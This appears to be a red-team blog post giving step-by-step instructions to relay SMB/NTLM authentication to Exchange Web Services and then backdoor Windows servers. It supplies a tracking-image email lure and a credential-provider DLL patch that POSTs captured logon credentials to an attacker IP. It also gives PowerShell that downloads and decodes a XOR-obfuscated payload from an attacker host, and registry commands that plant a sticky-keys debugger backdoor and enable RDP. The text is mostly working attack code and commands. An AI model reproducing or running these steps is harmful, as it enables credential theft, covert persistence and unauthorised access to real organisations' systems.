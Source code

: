 ```yaml
---
layout: single
title: SMB Relaying EWS and Stealthily Backdooring Servers
date: 2020-07-01
classes: wide
tags:
  - Red Team
--- 
```

![](/assets/images/ews.PNG)

## Create the email.
```html
<html>
<head>
<img src='file://<IP_ADDRESS>/aaa/bbb.jpg'/></img>
</head>
</html>
```
1. Save the contents as whatever.html  
2. Open the html file in Microsoft Word
3. Copy the contents and paste them into the Outlook Email.  

## ZackAttack

  - ```sudo ruby zackattack.rb```  
  - Add connected user to a group  
  - Attack Rules --> Add External Exchange Server IP -> Add IP to Group  
  - On Actions specify groups and launch attack!!!
  - Harvest downloaded user emails for credentials  

## Custom Credential Provider  

### Modify source  
  - Download [Custom Credential Provider](https://github.com/tdubs/credential-provider)
  - Make sure it builds as x64 .dll under VS2015
  - Comment Line 258, 261, 262, 263, 443, 444, 448, 449  
  - Add the following code from 450  

```C
HINTERNET hInternet = InternetOpen(L"Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0); // Update the following IP to match yours! 
HINTERNET hSession = InternetConnect(hInternet, L"<IP ADDRESS>", 80, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0);
HINTERNET hReq = HttpOpenRequest(hSession, L"POST", L"/", NULL, NULL, NULL, 0, 0); 
char* pBuf = charVar; 
// Send the request. 
HttpSendRequest(hReq, NULL, 0, pBuf, strlen(pBuf)); 
```

  - Copy .dll and .reg files inside cp.  

### RDP into Target machine

  - Move .reg and .dll files inside the machine
  - Copy the dll into C:\Windows\System32  
  - Execute Register.reg file  

### Log POST Requests with Apache

  - ```apache2ctl -M``` --> dumpio_module used  
  - /etc/apache2/apache2.conf --> Add at the end.  
  ```
  DumpIOInput On
  DumpIOOutput On
  LogLevel dumpio:trace7
  ```  
  - ```tail -f /var/log/apache2/error.log``` --> POST logged here.  

## Persistence 
  1. Download [PowerShdll](https://github.com/p3nt4/PowerShdll)
  
  2. Create a xored powershdll file.  
```powershell
$var1 = (New-Object Net.WebClient).DownloadData("http://<IP>/Powershdll.exe")
for ($i=0;$i -lt $var1.count;$i++)
{
	$var1[$i] = $var1[$i] -bxor 0x99
}
[system.convert]::ToBase64String($var1) | out-file C:\Users\malic\Desktop\x0red_Powershdll.exe
```  
  3. Download and decode the file on the target machine

```powershell
$var1 = (New-Object Net.WebClient).DownloadString("http://<IP>/x0red_Powershdll.exe")
$var1 = [system.convert]::FromBase64String($var1)
for ($i=0; $i -lt $var1.count; $i++)
{
  $var1[$i] = $var1[$i] -bxor 0x99
}
[system.io.file]::WriteAllBytes("$env:TEMP\PowerShdll.exe",$var1)
```  

  4. $env:TEMP\launcher.bat
  ```
  start "" "C:\Users\SomeAdmin\AppData\Local\Temp\Powershdll.exe" -i 
  ```
  5. Modify Registry Key to add a debugger for sticky keys and call PowerShdll.exe 
  6. Enable Multiple RDP Sessions 

```powershell
cmd.exe /c REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d $env:TEMP\launcher.bat
cmd.exe /c REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /d 0 /f
```

Resources:  
  - [ZackAttack](https://github.com/urbanesec/ZackAttack)
  - [NtlmRelaytoEWS](https://github.com/Arno0x/NtlmRelayToEWS)
  - [Dirkjam Blog](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
  - [Custom Credential Provider](https://github.com/tdubs/credential-provider)  
  - [PowerShdll](https://github.com/p3nt4/PowerShdll)
